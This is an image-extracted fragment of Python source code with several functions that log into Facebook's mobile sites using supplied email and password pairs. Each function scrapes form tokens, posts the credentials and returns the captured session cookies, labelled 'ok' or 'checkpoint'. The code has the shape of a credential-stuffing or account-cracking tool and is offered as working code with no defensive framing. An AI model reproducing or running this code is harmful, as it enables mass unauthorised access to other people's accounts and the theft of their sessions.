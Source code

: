     data={}
    for i in b("input"):
        if i.get("value") is None:
            if i.get("name")=="email":data.update({"email":em})
            elif i.get("name")=="pass":data.update({"pass":pas})
            else:data.update({i.get("name"):""})
        else:data.update({i.get("name"):i.get("value")})
    data.update({"fb_dtsg":meta,"m_sess":"","__user":"0","__req":"d","__csr":"","__a":"","__dyn":"","encpass":""})
    r.headers.update({"referer":"https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8"})
    po = r.post("https://mbasic.facebook.com/login/device-based/login/async/?refsrc=https%3A%2F%2Fm.facebook.com%2Flogin%2F%3Fref%3Ddbl&lwv=100",data=data).text
    _raw_cookies_ = (";").join([ "%s=%s" % (key, value) for key, value in r.cookies.get_dict().items() ])
    if "c_user" in list(r.cookies.get_dict().keys()):return {"status":"ok","email":em,"pass":pas,"cookies":_raw_cookies_}
    elif "checkpoint" in list(r.cookies.get_dict().keys()):return {"status":"cp","email":em,"pass":pas,"cookies":_raw_cookies_}
    else:return {"status":"error","email":em,"pass":pas}
def log_mobile_1(em,pas):
    ua = _azimvau_dapunta_('ugent.txt','r').read()
    r = requests.Session()
    r.headers.update({"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"en-GB,en-US;q=0.9,en;q=0.8,bn;q=0.7"})
    p = r.get("https://m.facebook.com/")
    b = r.post("https://m.facebook.com/login.php", data={"email": em, "pass": pas, "login": "submit"})
    _raw_cookies_ = (";").join([ "%s=%s" % (key, value) for key, value in r.cookies.get_dict().items() ])
    if "c_user" in r.cookies.get_dict().keys():return {"status":"ok","email":em,"pass":pas,"cookies":_raw_cookies_}
    elif "checkpoint" in r.cookies.get_dict().keys():return {"status":"cp","email":em,"pass":pas,"cookies":_raw_cookies_}
    else:return {"status":"error","email":em,"pass":pas}
def log_mobile_2(em,pas):
    ua = _azimvau_dapunta_('ugent.txt','r').read()
    r = requests.Session()
    r.headers.update({"Host":"m.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"en-GB,en-US;q=0.9,en;q=0.8,bn;q=0.7"})
    p = r.get("https://m.facebook.com/")
    b = bs4.BeautifulSoup(p.text,"html.parser")
    meta="".join(bs4.re.findall('dtsg":\{"token":"(.*?)"',p.text))
    data={}
    for i in b("input"):
        if i.get("value") is None:
            if i.get("name")=="email":data.update({"email":em})
            elif i.get("name")=="pass":data.update({"pass":pas})
            else:data.update({i.get("name"):""})
        else:data.update({i.get("name"):i.get("value")})
    data.update({"fb_dtsg":meta,"m_sess":"","__user":"0","__req":"d","__csr":"","__a":"","__dyn":"","encpass":""})
    r.headers.update({"referer":"https://m.facebook.com/login/?next&ref=dbl&fl&refid=8"})
    po = r.post("https://m.facebook.com/login/device-based/login/async/?refsrc=https%3A%2F%2Fm.facebook.com%2Flogin%2F%3Fref%3Ddbl&lwv=100",data=data).text
    _raw_cookies_ = (";").join([ "%s=%s" % (key, value) for key, value in r.cookies.get_dict().items() ])
    if "c_user" in list(r.cookies.get_dict().keys()):return {"status":"ok","email":em,"pass":pas,"cookies":_raw_cookies_}
    elif "checkpoint" in list(r.cookies.get_dict().keys()):return {"status":"cp","email":em,"pass":pas,"cookies":_raw_cookies_}
    else:return {"status":"error","email":em,"pass":pas}